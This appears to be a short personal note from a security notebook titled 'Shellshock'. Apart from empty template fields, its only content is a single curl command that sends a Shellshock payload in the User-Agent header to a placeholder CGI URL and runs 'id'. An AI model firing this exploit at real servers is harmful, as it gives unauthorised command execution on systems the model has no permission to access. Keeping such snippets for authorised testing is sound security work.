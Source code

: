 ```yaml
---
creation date: January 25th 2022
last modified date: January 25th 2022
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[Shellshock]]  
```bash
curl -k -H "user-agent: () { :; }; echo; echo; id" https://blah/cgi-bin/index.cgi
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 25th 2022 (01:20 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
